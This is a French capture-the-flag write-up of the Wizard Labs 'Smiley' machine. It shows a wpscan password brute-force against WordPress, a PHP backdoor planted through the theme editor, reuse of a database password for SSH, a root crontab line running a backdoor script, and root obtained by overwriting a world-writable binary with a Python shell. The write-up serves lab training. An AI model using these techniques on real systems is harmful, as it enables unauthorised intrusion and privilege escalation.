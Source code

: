 # Solution du CTF Smiley de Wizard Labs

Nitro
-----

[Wizard Labs](https://labs.wizard-security.net/) est une plateforme de CTF similaire à *HackTheBox* qui permet d'accéder via VPN à un réseau de machines vulnérables.  

Ici c'est l'occasion de s'attaquer à *Smiley*, l'une des machines qui a un niveau de difficulté de 3 sur 10.  

Gathering
---------

Les services accessibles sur la machine sont caractéristiques d'une machine Linux : ssh, rpcbind et un Apache, tous sur leurs ports habituels.  

Le site web renvoie un *Wordpress* géré par un certain *smiley* :  

![Wizard Labs CTF Smiley wordpress site](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/smiley_wordpress.png)

Je m'empresse d'utiliser [WPscan](https://wpscan.org/) pour énumérer la version de Wordpress et les plugins installés. Cela n'a rien remonté d'intéressant donc on va s'intéresser aux utilisateurs :  

```plain
$ wpscan --url http://10.1.1.42/ -e u1-100 -P top500.txt
[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (100 / 100) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - smiley / music                                                                                                                                                                    
Trying smiley / nathan Time: 00:00:25 <=================> (325 / 325) 100.00% Time: 00:00:25

[i] Valid Combinations Found:
 | Username: smiley, Password: music
```

Ici j'ai utilisé une wordlist contenant les 500 mots de passe les plus utilisés. On peut trouver des listes de ce site sur Github. *Ncrack* dispose d'une liste similaire [qui contient 5000 passwords](https://github.com/nmap/ncrack/blob/master/lists/top50000.pwd).  

Ces identifiants permettent donc d'accéder à la partie admin du site en se rendant sur */wp-admin*. Dans une situation comme celle-ci on peut installer un module Wordpress qui nous facilite la vie comme pour le [CTF Basic Pentesting: 1](http://devloop.users.sourceforge.net/index.php?article143/solution-du-ctf-basic-pentesting-1-de-vulnhub) ou bien aller modifier un script PHP d'un thème existant dans *Appearance > Editor* (*footer.php* par exemple).  

![Wizard Labs CTF Smiley wordpress theme edit backdoor](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/smiley_wp_edit.png)

Via une backdoor PHP insérée dans le script on peut exécuter des commandes sur le système en tant que *www-data* (pas vraiment de surprises).  

Le système est *Linux smiley 3.16.0-6-586 #1 Debian 3.16.56-1 (2018-04-28) i686 GNU/Linux*.  

On note dans */etc/passwd* la présence d'un utilisateur nommé *mike* d'UID 1000.  

Parmi les fichiers qu'il possède on trouve */var/tmp/binary\_as\_root* qui d'après les chaînes présentes dans ce binaire ELF semble être une copie de bash ou d'un autre shell...  

Malgré le nom donné à l'exécutable ce dernier n'est pas setuid et ne dispose pas non plus de [capabilities](https://linux.die.net/man/7/capabilities)...  

PrivEsc
-------

Dans le fichier de configuration de Wordpress on trouve le mot de passe permettant l'accès au MySQL.  

Ça semble inutile de fouiller dans la base *Wordpress* étant donné qu'on dispose du mot de passe de *smiley* mais il s'avère que le mot de passe ci-dessous permette l'accès SSH avec le compte *mike*, de quoi obtenir un shell digne de ce nom :)   

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');
```

Dans le dossier personnel de l'utilisateur on trouve un binaire setuid root :  

```plain
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 /home/mike/listwww
```

Ce dernier a un fonctionnement que l'on peut deviner simplement en appliquant la commande strings dessus :  

```plain
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setreuid
printf
system
__cxa_finalize
__libc_start_main
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
listing /var/www/html
sleep 3
/bin/ls /var/www/html
```

Il effectue donc un *setreuid(0)* avec de lancer deux commandes bash, la première étant une fonction builtin (sleep), l'autre */bin/ls* avec le path complet...  

Ca ne semble pas laisser trop de possibilités à l'exploitation (jouer sur les PATHs et la recherche des exécutables par le binaire) mais avec [ShellShock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) sait-on jamais.  

J'ai donc utilisé [bashcheck](https://github.com/hannob/bashcheck) pour tester la présence de la vulnérabilité bash mais il m'a dis... nope  

```plain
mike@smiley:~$ ./bashcheck
Testing /bin/bash ...
Bash version 4.3.30(1)-release

Variable function parser pre/suffixed [%%, upstream], bugs not exploitable
Not vulnerable to CVE-2014-6271 (original shellshock)
Not vulnerable to CVE-2014-7169 (taviso bug)
Not vulnerable to CVE-2014-7186 (redir_stack bug)
Test for CVE-2014-7187 not reliable without address sanitizer
Not vulnerable to CVE-2014-6277 (lcamtuf bug #1)
Not vulnerable to CVE-2014-6278 (lcamtuf bug #2)
```

J'ai aussi testé la faille XTRACE/PS4 utilisée pour le [CTF /dev/random: k2](http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub) sans plus de succès.  

La machine a une autre particularité qui ne peux pas échapper à des yeux avisés :  

```plain
-rwxrwxrwx 1 root root  822 Sep  5 05:29 /etc/crontab
```

Mais j'ai beau eu rajouter une ligne pour faire exécuter un script toutes les minutes :  

```plain
*/1 * * * * root /tmp/backdoor.py
```

... rien ne se passait :-|  

L'autre point inhabituel sur cette machine c'est que de nombreux binaires classiques sont word-writables...  

Du coup j'ai ressortit le script que j'avais fait pour le [CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub) qui surveille la liste des processus lancés sur le système histoire de voir de bons candidats à la réécriture.  

Le script montre que les taches CRON sont bien lancées mais bizarrement pas la notre :(  

```plain
6028 root /usr/sbin/CRON -f
6029 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6031 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6038 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6040 root xargs
6041 root xargs
6044 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6049 root /bin/sh /usr/sbin/invoke-rc.d anacron start
```

```plain
13317 root /usr/sbin/CRON -f
13319 root /bin/sh -c   [ -x /usr/lib/php5/sessionclean ] && /usr/lib/php5/sessionclean
13320 root /bin/sh -e /usr/lib/php5/sessionclean
13321 root /bin/sh -e /usr/lib/php5/sessionclean
13322 root sort -rn -t: -k2,2
13323 root sort -u -t: -k 1,1
13324 root /bin/sh -e /usr/lib/php5/sessionclean
13326 root /bin/sh -e /usr/lib/php5/sessionclean
```

Pas bien grave puisque j'ai choisit d'écraser le binaire *sort* par mon script Python initial qui m'a donné un accès root plusieurs minutes plus tard ([voir le Github d'infodox](https://github.com/infodox/python-pty-shells) pour des shells sympas en Python) :  

```plain
root@smiley:~# id
uid=0(root) gid=0(root) groups=0(root)
root@smiley:~# cd /root
root@smiley:~# ls -al
total 40
drwx------  5 root root 4096 Jun 15  2018 .
drwxr-xr-x 21 root root 4096 May  4  2018 ..
-rw-------  1 root root   70 Dec 27 06:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root  663 May 10  2018 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rwx------  1 root root   33 May 10  2018 root.txt
drwxr-xr-x  3 root root 4096 May  4  2018 .vagrant
drwxr-xr-x  7 root root 4096 May  4  2018 .vagrant.d
drwx------  2 root root 4096 May  4  2018 .VirtualBox
root@smiley:~# cat root.txt
a16c3--- snip ---60f2b9b
root@smiley:~# cd /home/mike
root@smiley:/home/mike# ls
listwww  user.txt
root@smiley:/home/mike# cat user.txt
b075f--- snip ---88379
```

That's it
---------

Done ! On était dans de l'exploitation Linux très classique : énumération, brute-force puis escalade de privilège par écrasement d'un binaire ou accès à la crontab.  


*Published November 17 2020 at 13:44*